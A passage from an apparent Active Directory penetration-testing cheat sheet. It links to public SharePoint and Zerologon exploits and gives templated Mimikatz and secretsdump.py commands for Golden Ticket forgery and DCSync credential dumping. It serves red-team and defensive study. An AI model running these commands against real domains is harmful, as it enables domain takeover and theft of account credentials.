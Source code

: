 Detailed Articles:

* [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
* [A Guide to Attacking Domain Trusts](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

### Exploiting SharePoint

* [CVE-2019-0604](https://medium.com/@gorkemkaradeniz/sharepoint-cve-2019-0604-rce-exploitation-ab3056623b7d) RCE Exploitation [PoC](https://github.com/k8gege/CVE-2019-0604)
* [CVE-2019-1257](https://www.zerodayinitiative.com/blog/2019/9/18/cve-2019-1257-code-execution-on-microsoft-sharepoint-through-bdc-deserialization) Code execution through BDC deserialization
* [CVE-2020-0932](https://www.zerodayinitiative.com/blog/2020/4/28/cve-2020-0932-remote-code-execution-on-microsoft-sharepoint-using-typeconverters) RCE using typeconverters [PoC](https://github.com/thezdi/PoC/tree/master/CVE-2020-0932)

### Zerologon Exploit

* [Zerologon: Unauthenticated domain controller compromise](https://www.secura.com/pathtoimg.php?id=2055): White paper of the vulnerability.
* [SharpZeroLogon](https://github.com/nccgroup/nccfsas/tree/main/Tools/SharpZeroLogon): C\# implementation of the Zerologon exploit.
* [Invoke-ZeroLogon](https://github.com/BC-SECURITY/Invoke-ZeroLogon): Powershell implementation of the Zerologon exploit.
* [Zer0Dump](https://github.com/bb00/zer0dump): Python implementation of the Zerologon exploit using the impacket library.

## Domain Persistence

### Golden Ticket Attack

```text
#Execute mimikatz on DC as DA to grab krbtgt hash:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>

#On any machine:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
<HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### DCsync Attack

```text
#DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges):
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'

#DCsync using secretsdump.py from impacket with NTLM authentication
secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm

#DCsync using secretsdump.py from impacket with Kerberos Authentication
secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
```
